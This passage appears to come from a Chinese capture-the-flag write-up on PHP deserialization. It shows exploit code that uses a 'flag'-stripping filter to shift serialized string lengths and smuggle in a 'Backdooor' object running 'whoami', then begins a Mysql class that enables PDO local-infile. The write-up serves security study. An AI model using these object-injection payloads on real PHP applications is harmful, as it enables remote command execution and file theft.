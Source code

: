 ```php
$username = 'flagflagflagflagflagflag';
$password =' ";s:8:"password";O:9:"Backdooor":1:{s:3:"cmd";s:6:"whoami";}}';
$database = "test01";
$port = 3306;
$mysql = new Mysql($database, $host, $port, $username, $password);
$mysqlser = serialize($mysql);
echo($mysqlser).PHP_EOL;
$mysqlser = str_replace("flag", "", $mysqlser);
echo($mysqlser);
var_dump(unserialize($mysqlser));

// 这串 php8 php5 都可以运行
$host = "127.0.0.1";
$username = 'root';
$password ='";s:8:"hostname";O:9:"Backdooor":1:{s:3:"cmd";s:10:"whoami    ";};s:4:"port";i:3306;s:7:"charset";s:4:"utf8";s:8:"username";s:4:"root";s:8:"password";s:8:"password";}';
$database = "flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";
$port = 3306;
$mysql = new Mysql($database, $host, $port, $username, $password);
$mysqlser = serialize($mysql);
echo($mysqlser).PHP_EOL;
$mysqlser = str_replace("flag", "", $mysqlser);
echo($mysqlser);
unserialize($mysqlser);
```

![image-20241126102005035](qwbqsnsmysqlprobe.assets/image-20241126102005035.png)



## 学习

### toString 触发学习

```php
<?php
error_reporting(0);
class Mysql {
    public $debug = 1;
    public $database;
    public $hostname;
    public $port;
    public $charset = "utf8";
    public $username;
    public $password;
    public function __construct($database, $hostname, $port, $username, $password) {
        $this->database = $database;
        $this->hostname = $hostname;
        $this->port = $port;
        $this->username = $username;
        $this->password = $password;
    }
    protected function connect() {
        $dsn = "mysql:host=".$this->hostname.";port=".$this->port.";dbname=".$this->database.";charset=".$this->charset;
        $this->pdo = new PDO($dsn, $this->username, $this->password, array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true
        ));
    }
    public function __destruct()
    {
        $this->connect();
```